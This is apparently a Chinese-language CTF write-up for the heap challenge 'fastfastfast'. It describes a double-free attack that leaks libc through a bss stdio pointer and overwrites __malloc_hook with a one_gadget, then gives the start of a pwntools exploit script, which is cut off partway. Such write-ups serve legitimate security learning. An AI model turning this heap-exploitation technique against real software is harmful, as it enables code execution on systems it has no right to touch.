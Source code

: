 ```python
```

## fastfastfast

- 简单的堆题 free的时候没有做任何检测 直接`double free` 然后通过指向bss表中 泄露出标准io地址从而推算出libc地址

  ![image-20240422211524070](https://awaqwqa.github.io/img/xyctf/image-20240422211524070.png)

- `double free`后任意地址malloc

  - ![image-20240422211447696](https://awaqwqa.github.io/img/xyctf/image-20240422211447696.png)

- bss段标准输入输出流io地址信息

  - ![image-20240422211628353](https://awaqwqa.github.io/img/xyctf/image-20240422211628353.png)

- 通过在gdb中输入libc获取libc基础地址来算和io之间的地址偏差 

  - ![image-20240422211647867](https://awaqwqa.github.io/img/xyctf/image-20240422211647867.png)


算一下偏差就可以了 

然后通过第二次`double free` 修改malloc hook 为onegadget即可

### 脚本

```python
from pwn import *
# context(os='linux', arch='mips',endian="little", log_level='debug')
context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


file_name = "./vuln"
url = ""
port = 1111

elf = ELF(file_name)
# p= process(file_name)
p = gdb.debug(file_name,"b *main+42")
# p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def Menu(index):
    ru(b">>> ")
    sl(index)
def create(index,content):
    Menu(b"1")
    ru(b"please input note idx\n")
    sl(str(index).encode())
    ru(b"please input content\n")
    sd(content)
    print(f"创建了一个index:{index}的chunk")
def delete(index):
    Menu(b"2")
```